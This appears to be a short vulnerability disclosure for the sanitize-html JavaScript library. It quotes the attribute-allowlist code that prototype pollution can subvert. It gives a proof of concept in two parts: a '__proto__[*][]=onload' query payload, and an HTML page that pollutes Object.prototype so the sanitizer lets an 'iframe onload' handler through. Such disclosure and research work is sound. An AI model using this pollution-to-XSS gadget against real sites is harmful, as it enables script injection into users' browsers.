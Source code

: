 ## sanitize-html

URL: https://github.com/apostrophecms/sanitize-html

### Vulnerable code fragment
https://github.com/apostrophecms/sanitize-html/blob/d78ee44069b3a3bb70aca3289de63b7acbffd4f2/index.js#L275-L280
```js
          if (!allowedAttributesMap ||
            (has(allowedAttributesMap, name) && allowedAttributesMap[name].indexOf(a) !== -1) ||
            (allowedAttributesMap['*'] && allowedAttributesMap['*'].indexOf(a) !== -1) ||
            (has(allowedAttributesGlobMap, name) && allowedAttributesGlobMap[name].test(a)) ||
            (allowedAttributesGlobMap['*'] && allowedAttributesGlobMap['*'].test(a))) {
            passedAllowedAttributesMapCheck = true;
```

### PoC

```
?__proto__[*][]=onload
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/sanitize-html/1.27.5/sanitize-html.min.js"></script>
<script>
  Object.prototype['*'] = ['onload']
</script>
<script>
  document.write(sanitizeHtml('<iframe onload=alert(1)>'))
</script>
```